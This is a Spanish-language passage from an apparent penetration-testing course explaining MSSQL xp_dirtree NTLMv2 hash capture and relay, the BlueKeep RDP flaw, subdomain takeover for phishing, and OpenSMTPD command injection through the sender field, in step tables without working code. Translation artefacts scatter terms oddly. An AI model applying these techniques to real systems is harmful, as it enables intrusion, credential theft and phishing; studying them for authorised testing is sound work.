Los hosts de bases de datos se consideran objetivos altos, ya que son responsables de almacenar todo tipo de datos confidenciales, incluidos, entre otros, credenciales de usuario, datos relacionados con el negocio e información de pago. Además, esos servicios a menudo se configuran con usuarios con privilegios elevados. Si obtenemos acceso a una base de datos, es posible que podamos aprovechar esos privilegios para más acciones, incluido el movimiento lateral y la escalada de privilegios.`Personal Identifiable Information (PII)`

---

En esta ocasión, vamos a hablar de una vulnerabilidad que no tiene un CVE y no requiere un exploit directo. La sección anterior muestra que podemos obtener los hashes interactuando con el servidor MSSQL. Sin embargo, debemos mencionar nuevamente que este ataque es posible a través de una conexión directa al servidor MSSQL y aplicaciones web vulnerables. Sin embargo, por el momento solo nos centraremos en la variante más simple, es decir, la interacción directa.`NTLMv2`

---

## El concepto del ataque

Nos centraremos en la función de servidor MSSQL no documentada llamada para esta vulnerabilidad. Esta función se utiliza para ver el contenido de una carpeta específica (local o remota). Además, esta función proporciona algunos parámetros adicionales que se pueden especificar. Estos incluyen la profundidad, cuánto debe llegar la función en la carpeta y la carpeta de destino real.`xp_dirtree`

#### El concepto de ataques


Lo interesante es que la función MSSQL no es directamente una vulnerabilidad, sino que se aprovecha del mecanismo de autenticación de SMB. Cuando intentamos acceder a una carpeta compartida en la red con un host de Windows, este host de Windows envía automáticamente un hash para la autenticación.`xp_dirtree``NTLMv2`

Este hash se puede usar de varias maneras en el servidor MSSQL y otros hosts de la red corporativa. Esto incluye un ataque de retransmisión SMB en el que "reproducimos" el hash para iniciar sesión en otros sistemas donde la cuenta tiene privilegios de administrador local o este hash en nuestro sistema local. Un cracking exitoso nos permitiría ver y usar la contraseña en texto sin cifrar. Un ataque de retransmisión SMB exitoso nos otorgaría derechos de administrador en otro host de la red, pero no necesariamente en el host donde se originó el hash porque Microsoft parcheó una falla anterior que permitía que una retransmisión SMB regresara al host de origen. Sin embargo, posiblemente podríamos obtener el administrador local de otro host y luego robar credenciales que podrían reutilizarse para obtener acceso de administrador local al sistema original desde donde se originó el hash NTLMv2.`cracking`

#### Inicio del ataque

|**Paso**|**XP_DIRTREE**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`1.`|La fuente aquí es la entrada del usuario, que especifica la función y la carpeta compartida en la red.|`Source`|
|`2.`|El proceso debe garantizar que todo el contenido de la carpeta especificada se muestre al usuario.|`Process`|
|`3.`|La ejecución de comandos del sistema en el servidor MSSQL requiere privilegios elevados con los que el servicio ejecuta los comandos.|`Privileges`|
|`4.`|El servicio SMB se utiliza como destino al que se reenvía la información especificada.|`Destination`|

Aquí es cuando el ciclo comienza de nuevo, pero esta vez para obtener el hash NTLMv2 del usuario del servicio MSSQL.

#### Roba el hachís

|**Paso**|**Robando el hachís**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`5.`|Aquí, el servicio SMB recibe la información sobre el pedido especificado a través del proceso anterior del servicio MSSQL.|`Source`|
|`6.`|A continuación, se procesan los datos y se consulta el contenido de la carpeta especificada.|`Process`|
|`7.`|El hash de autenticación asociado se usa en consecuencia, ya que el usuario en ejecución de MSSQL consulta el servicio.|`Privileges`|
|`8.`|En este caso, el destino de la autenticación y la consulta es el host que controlamos y la carpeta compartida en la red.|`Destination`|

Finalmente, el hash es interceptado por herramientas como , , o y se nos muestra, que podemos intentar usar para nuestros propósitos. Aparte de eso, hay muchas formas diferentes de ejecutar comandos en MSSQL. Por ejemplo, otro método interesante sería ejecutar código Python en una consulta SQL. Podemos encontrar más información sobre esto en la [documentación](https://docs.microsoft.com/en-us/sql/machine-learning/tutorials/quickstart-python-create-script?view=sql-server-ver15) de Microsoft. Sin embargo, esta y otras posibilidades de lo que podemos hacer con MSSQL se discutirán en otro módulo.`Responder` `WireShark` `TCPDump`


# Últimas vulnerabilidades de RDP

[El Protocolo de escritorio remoto (RDP)](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol) es un protocolo propietario desarrollado por Microsoft que proporciona al usuario una interfaz gráfica para conectarse a otra computadora a través de una conexión de red. También es una de las herramientas de administración más populares, ya que permite a los administradores de sistemas controlar de forma centralizada sus sistemas remotos con la misma funcionalidad que si estuvieran in situ. Además, los proveedores de servicios gestionados (MSP) suelen utilizar la herramienta para gestionar cientos de redes y sistemas de clientes. Desafortunadamente, si bien RDP facilita en gran medida la administración remota de sistemas de TI distribuidos, también crea otra puerta de entrada para los ataques.

---

En 2019, se publicó una vulnerabilidad crítica en el servicio RDP () que también llevó a la ejecución remota de código () con el identificador [CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708). Esta vulnerabilidad se conoce como . No requiere acceso previo al sistema para explotar el servicio para nuestros fines. Sin embargo, la explotación de esta vulnerabilidad ha provocado y sigue dando lugar a muchos ataques de malware o ransomware. Las grandes organizaciones, como los hospitales, cuyo software solo está diseñado para versiones y bibliotecas específicas, son particularmente vulnerables a este tipo de ataques, ya que el mantenimiento de la infraestructura es costoso. Aquí, también, no entraremos en detalles minuciosos sobre esta vulnerabilidad, sino que nos centraremos en el concepto.`TCP/3389``RCE``BlueKeep`

---

## El concepto del ataque

La vulnerabilidad también se basa, al igual que con SMB, en solicitudes manipuladas enviadas al servicio objetivo. Sin embargo, lo peligroso aquí es que la vulnerabilidad no requiere que se active la autenticación del usuario. En cambio, la vulnerabilidad se produce después de inicializar la conexión cuando se intercambian las configuraciones básicas entre el cliente y el servidor. Esto se conoce como una técnica [de uso después de liberar](https://cwe.mitre.org/data/definitions/416.html) () que utiliza la memoria liberada para ejecutar código arbitrario.`UAF`

#### El concepto de ataques


Este ataque implica muchos pasos diferentes en el kernel del sistema operativo, que no son de gran importancia aquí por el momento para entender el concepto detrás de él. Una vez que la función ha sido explotada y la memoria ha sido liberada, los datos se escriben en el kernel, lo que nos permite sobrescribir la memoria del kernel. Esta memoria se utiliza para escribir nuestras instrucciones en la memoria liberada y dejar que la CPU las ejecute. Si queremos ver el análisis técnico de la vulnerabilidad BlueKeep, este [artículo](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/) proporciona una buena descripción general.

#### Inicio del ataque

|**Paso**|**Fortaleza Azul**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`1.`|Aquí, la fuente es la solicitud de inicialización del intercambio de configuraciones entre el servidor y el cliente que el atacante ha manipulado.|`Source`|
|`2.`|La solicitud conduce a una función utilizada para crear un canal virtual que contiene la vulnerabilidad.|`Process`|
|`3.`|Dado que este servicio es adecuado para la [administración](https://docs.microsoft.com/en-us/windows/win32/ad/the-localsystem-account) del sistema, se ejecuta automáticamente con los privilegios de cuenta [LocalSystem](https://docs.microsoft.com/en-us/windows/win32/ad/the-localsystem-account) del sistema.|`Privileges`|
|`4.`|La manipulación de la función nos redirige a un proceso del kernel.|`Destination`|

Aquí es cuando el ciclo comienza de nuevo, pero esta vez para obtener acceso remoto al sistema de destino.

#### Desencadenar la ejecución remota de código

|**Paso**|**Fortaleza Azul**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`5.`|La fuente esta vez es la carga útil creada por el atacante que se inserta en el proceso para liberar la memoria en el kernel y colocar nuestras instrucciones.|`Source`|
|`6.`|El proceso en el kernel se activa para liberar la memoria del kernel y permitir que la CPU apunte a nuestro código.|`Process`|
|`7.`|Dado que el kernel también se ejecuta con los privilegios más altos posibles, las instrucciones que ponemos en la memoria del kernel liberada aquí también se ejecutan con privilegios de [cuenta LocalSystem](https://docs.microsoft.com/en-us/windows/win32/ad/the-localsystem-account).|`Privileges`|
|`8.`|Con la ejecución de nuestras instrucciones desde el kernel, se envía un shell inverso a través de la red a nuestro host.|`Destination`|

No todas las variantes más nuevas de Windows son vulnerables a Bluekeep, según Microsoft. Las actualizaciones de seguridad para las versiones actuales de Windows están disponibles, y Microsoft también ha proporcionado actualizaciones para muchas versiones anteriores de Windows que ya no son compatibles. Sin embargo, los sistemas Windows fueron identificados como vulnerables a los ataques en un análisis inicial en mayo de 2019, e incluso hoy en día, alrededor de esos hosts siguen siendo vulnerables.`950,000``Bluekeep``a quarter`

 Nota: Este es un defecto con el que probablemente nos encontraremos durante nuestras pruebas de penetración, pero puede causar inestabilidad en el sistema, incluida una "pantalla azul de la muerte (BSoD)", y debemos tener cuidado antes de usar el exploit asociado. En caso de duda, lo mejor es hablar primero con nuestro cliente para que comprenda los riesgos y luego decidir si desea que ejecutemos el exploit o no.


# Últimas vulnerabilidades de DNS

El [Sistema de Nombres de Dominio](https://www.cloudflare.com/learning/dns/what-is-dns/) () traduce los nombres de dominio (por ejemplo, hackthebox.com) a las direcciones IP numéricas (por ejemplo, 104.17.42.72). El DNS es en su mayoría, pero el DNS dependerá más a medida que pase el tiempo. DNS siempre se ha diseñado para usar el puerto UDP y TCP 53 desde el principio, siendo UDP el valor predeterminado, y recurre al uso de TCP cuando no puede comunicarse en UDP, generalmente cuando el tamaño del paquete es demasiado grande para empujar en un solo paquete UDP. Dado que casi todas las aplicaciones de red utilizan DNS, los ataques contra los servidores DNS representan una de las amenazas más frecuentes y significativas en la actualidad.`DNS``UDP/53``TCP/53`

---

Podemos encontrar miles de subdominios y dominios en la web. A menudo, apuntan a proveedores de servicios de terceros que ya no están activos, como AWS, GitHub y otros, y, en el mejor de los casos, muestran un mensaje de error como confirmación de un servicio de terceros desactivado. Las grandes empresas y corporaciones también se ven afectadas una y otra vez. Las empresas a menudo cancelan los servicios de proveedores externos, pero se olvidan de eliminar los registros DNS asociados. Esto se debe a que no se incurre en costos adicionales para una entrada DNS. Muchas plataformas de recompensas por errores conocidas, como [HackerOne](https://www.hackerone.com/), ya se enumeran explícitamente como una categoría de recompensas. Con una simple búsqueda, podemos encontrar varias herramientas en GitHub, por ejemplo, que automatizan el descubrimiento de subdominios vulnerables o ayudan a crear Pruebas de Concepto () que luego se pueden enviar al programa de recompensas por errores de nuestra elección o a la empresa afectada. RedHuntLabs realizó un [estudio](https://redhuntlabs.com/blog/project-resonance-wave-1.html) sobre esto en 2020 y descubrió que más de 400,000 subdominios de 220 millones eran vulnerables a la toma de control de subdominios. El 62% de ellos pertenecían al sector del comercio electrónico.`Subdomain Takeover``PoC`

#### Estudio de RedHuntLabs

 Fuente: https://redhuntlabs.com/blog/project-resonance-wave-1.html

---

## El concepto del ataque

Uno de los mayores peligros de una toma de control de subdominio es que se puede lanzar una campaña de phishing que se considera parte del dominio oficial de la empresa objetivo. Por ejemplo, los clientes mirarían el enlace y verían que el dominio (que apunta a un bucket de S3 no existente de AWS) está detrás del dominio oficial y confiarían en él como cliente. Sin embargo, los clientes no saben que esta página ha sido duplicada o creada por un atacante para provocar un inicio de sesión por parte de los clientes de la empresa, por ejemplo.`customer-drive.inlanefreight.com``inlanefreight.com`

Por lo tanto, si un atacante encuentra un registro en los registros DNS de la empresa que apunta a un subdominio que ya no existe y devuelve un , lo más probable es que este subdominio pueda ser tomado por nosotros mediante el uso del proveedor externo. Una toma de control de subdominio se produce cuando un subdominio apunta a otro dominio utilizando el registro CNAME que no existe actualmente. Cuando un atacante registra este dominio inexistente, el subdominio apunta al registro del dominio por nuestra parte. Al hacer un solo cambio de DNS, nos convertimos en propietarios de ese subdominio en particular, y después de eso, podemos administrar el subdominio como queramos.`CNAME``HTTP 404 error`

#### El concepto de ataques


Lo que sucede aquí es que el subdominio existente ya no apunta a un proveedor externo y, por lo tanto, ya no está ocupado por este proveedor. Prácticamente cualquier persona puede registrar este subdominio como propio. La visita a este subdominio y la presencia del registro CNAME en el DNS de la empresa conduce, en la mayoría de los casos, a que las cosas funcionen como se espera. Sin embargo, el diseño y la función de este subdominio están en manos del atacante.

#### Inicio de la adquisición de subdominios

|**Paso**|**Toma de control de subdominios**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`1.`|La fuente, en este caso, es el nombre de subdominio que ya no utiliza la empresa que descubrimos.|`Source`|
|`2.`|El registro de este subdominio en el sitio del proveedor externo se realiza mediante el registro y el enlace a fuentes propias.|`Process`|
|`3.`|Aquí, los privilegios recaen en el propietario principal del dominio y sus entradas en sus servidores DNS. En la mayoría de los casos, el proveedor externo no es responsable de si este subdominio es accesible a través de otros.|`Privileges`|
|`4.`|El registro y la vinculación exitosos se realizan en nuestro servidor, que es el destino en este caso.|`Destination`|

Aquí es cuando el ciclo comienza de nuevo, pero esta vez para activar el reenvío al servidor que controlamos.

#### Desencadenar el reenvío

|**Paso**|**Toma de control de subdominios**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`5.`|El visitante del subdominio introduce la URL en su navegador, y se utiliza como fuente el registro DNS obsoleto (CNAME) que no se ha eliminado.|`Source`|
|`6.`|El servidor DNS busca en su lista para ver si tiene conocimiento sobre este subdominio y, de ser así, el usuario es redirigido al subdominio correspondiente (que está controlado por nosotros).|`Process`|
|`7.`|Los privilegios para esto ya recaen en los administradores que administran el dominio, ya que solo ellos están autorizados a cambiar el dominio y sus servidores DNS. Dado que este subdominio está en la lista, el servidor DNS considera que el subdominio es confiable y reenvía al visitante.|`Privileges`|
|`8.`|El destino aquí es la persona que solicita la dirección IP del subdominio al que desea ser redirigido a través de la red.|`Destination`|

La toma de control de subdominios se puede utilizar no solo para el phishing, sino también para muchos otros ataques. Estos incluyen, por ejemplo, el robo de cookies, la falsificación de solicitudes entre sitios (CSRF), el abuso de CORS y la derrota de la política de seguridad de contenido (CSP). Podemos ver algunos ejemplos de adquisiciones de subdominios en el [sitio web de HackerOne](https://hackerone.com/hacktivity?querystring=%22subdomain%20takeover%22), que han hecho que los cazadores de recompensas de errores obtengan pagos considerables.

# Últimas vulnerabilidades del servicio de correo electrónico

Un servidor (a veces también denominado servidor de correo electrónico) es un servidor que maneja y entrega correo electrónico a través de una red, generalmente a través de Internet. Un servidor de correo puede recibir correos electrónicos de un dispositivo cliente y enviarlos a otros servidores de correo. Un servidor de correo también puede enviar correos electrónicos a un dispositivo cliente. Un cliente suele ser el dispositivo donde leemos nuestros correos electrónicos (ordenadores, smartphones, etcétera).`mail server`

Cuando pulsamos el botón en nuestra aplicación de correo electrónico (cliente de correo electrónico), el programa establece una conexión con un servidor en la red o Internet. El nombre significa Protocolo Simple de Transferencia de Correo, y es un protocolo para entregar correos electrónicos de clientes a servidores y de servidores a otros servidores.`Send``SMTP``SMTP`

Cuando descargamos correos electrónicos a nuestra aplicación de correo electrónico, esta se conectará a un servidor o servidor en Internet, lo que permite al usuario guardar mensajes en un buzón de correo del servidor y descargarlos periódicamente.`POP3``IMAP4`

De forma predeterminada, los clientes eliminan los mensajes descargados del servidor de correo electrónico. Este comportamiento dificulta el acceso al correo electrónico en varios dispositivos, ya que los mensajes descargados se almacenan en el equipo local. Sin embargo, normalmente podemos configurar un cliente para que guarde copias de los mensajes descargados en el servidor.`POP3``POP3`

Por otro lado, de forma predeterminada, los clientes no eliminan los mensajes descargados del servidor de correo electrónico. Este comportamiento facilita el acceso a los mensajes de correo electrónico desde varios dispositivos. Veamos cómo podemos dirigirnos a los servidores de correo.`IMAP4`


---

Una de las vulnerabilidades más recientes y peligrosas del [Protocolo Simple de Transferencia de Correo (SMTP)](https://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol) divulgada públicamente se descubrió en [OpenSMTPD](https://www.opensmtpd.org/) hasta la versión 6.6.2 del servicio en 2020. A esta vulnerabilidad se le asignó [CVE-2020-7247](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247) y conduce a RCE. Es explotable desde 2018. Este servicio se ha utilizado en muchas distribuciones diferentes de Linux, como Debian, Fedora, FreeBSD y otras. Lo peligroso de esta vulnerabilidad es la posibilidad de ejecutar comandos del sistema de forma remota en el sistema y que explotar esta vulnerabilidad no requiere autenticación.

Según [Shodan.io](https://www.shodan.io/), en el momento de escribir este artículo (abril de 2022), hay más de 5.000 servidores OpenSMTPD de acceso público en todo el mundo, y la tendencia va en aumento. Sin embargo, esto no significa que esta vulnerabilidad afecte a todos los servicios. En cambio, queremos mostrarle qué tan significativo sería el impacto de un RCE en caso de que esta vulnerabilidad se descubriera ahora. Sin embargo, por supuesto, esto también se aplica a todos los demás servicios.

#### Búsqueda de Shodan

   


#### Tendencia Shodan

   


---

## El concepto del ataque

Como ya sabemos, con el servicio SMTP, podemos redactar correos electrónicos y enviarlos a las personas que deseemos. La vulnerabilidad de este servicio radica en el código del programa, es decir, en la función que registra la dirección de correo electrónico del remitente. Esto ofrece la posibilidad de escapar de la función usando un punto y coma () y hacer que el sistema ejecute comandos de shell arbitrarios. Sin embargo, hay un límite de 64 caracteres, que se pueden insertar como un comando. Los detalles técnicos de esta vulnerabilidad se pueden encontrar [aquí](https://www.openwall.com/lists/oss-security/2020/01/28/3).`;`

#### El concepto de ataques


Aquí primero debemos inicializar una conexión con el servicio SMTP. Esto puede automatizarse mediante un script o introducirse manualmente. Una vez establecida la conexión, se debe redactar un correo electrónico en el que definamos el remitente, el destinatario y el mensaje real para el destinatario. El comando del sistema deseado se inserta en el campo del remitente conectado a la dirección del remitente con un punto y coma (). Tan pronto como terminamos de escribir, los datos ingresados son procesados por el proceso OpenSMTPD.`;`

#### Inicio del ataque

|**Paso**|**Ejecución remota de código**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`1.`|La fuente es la entrada del usuario que se puede ingresar manualmente o automáticamente durante la interacción directa con el servicio.|`Source`|
|`2.`|El servicio tomará el correo electrónico con la información requerida.|`Process`|
|`3.`|Escuchar los puertos estandarizados de un sistema requiere privilegios en el sistema y, si se utilizan estos puertos, el servicio se ejecuta en consecuencia con privilegios elevados.`root`|`Privileges`|
|`4.`|Como destino, la información introducida se reenvía a otro proceso local.|`Destination`|

Aquí es cuando el ciclo comienza de nuevo, pero esta vez para obtener acceso remoto al sistema de destino.

#### Desencadenar la ejecución remota de código

|**Paso**|**Ejecución remota de código**|**Concepto de Ataques - Categoría**|
|---|---|---|
|`5.`|Esta vez, la fuente es toda la entrada, especialmente desde el área del remitente, que contiene nuestro comando del sistema.|`Source`|
|`6.`|El proceso lee toda la información, y el punto y coma () interrumpe la lectura debido a reglas especiales en el código fuente que conducen a la ejecución del comando del sistema ingresado.`;`|`Process`|
|`7.`|Dado que el servicio ya se está ejecutando con privilegios elevados, otros procesos de OpenSMTPD se ejecutarán con los mismos privilegios. Con estos, también se ejecutará el comando del sistema que ingresamos.|`Privileges`|
|`8.`|El destino del comando del sistema puede ser, por ejemplo, la red de vuelta a nuestro host a través de la cual obtenemos acceso al sistema.|`Destination`|

Se ha publicado un [exploit](https://www.exploit-db.com/exploits/47984) en la plataforma [Exploit-DB](https://www.exploit-db.com/) para esta vulnerabilidad que se puede utilizar para un análisis más detallado y la funcionalidad del disparador para la ejecución de comandos del sistema.

---

## Próximos pasos

Como hemos visto, los ataques por correo electrónico pueden conducir a la divulgación de datos confidenciales a través del acceso directo a la bandeja de entrada de un usuario o mediante la combinación de una configuración incorrecta con un correo electrónico de phishing convincente. Hay otras formas de atacar los servicios de correo electrónico que también pueden ser muy efectivas. Algunas cajas de Hack The Box muestran ataques de correo electrónico, como [Rabbit](https://www.youtube.com/watch?v=5nnJq_IWJog), que se ocupa de la fuerza bruta de Outlook Web Access (OWA) y luego envía un documento con una macro maliciosa para suplantar a un usuario, [SneakyMailer](https://0xdf.gitlab.io/2020/11/28/htb-sneakymailer.html), que tiene elementos de phishing y enumera la bandeja de entrada de un usuario usando Netcat y un cliente IMAP, y [Reel](https://0xdf.gitlab.io/2018/11/10/htb-reel.html), que se ocupa de la fuerza bruta de usuarios SMTP y el phishing con un archivo RTF malicioso.

Vale la pena jugar a estas cajas, o al menos ver el video de Ippsec o leer un tutorial para ver ejemplos de estos ataques en acción. Esto se aplica a cualquier ataque demostrado en este módulo (u otros). El sitio [ippsec.rocks](https://ippsec.rocks/?#) se puede utilizar para buscar términos comunes y mostrará en qué casillas HTB aparecen, lo que revelará una gran cantidad de objetivos contra los que practicar.

---

# LAB

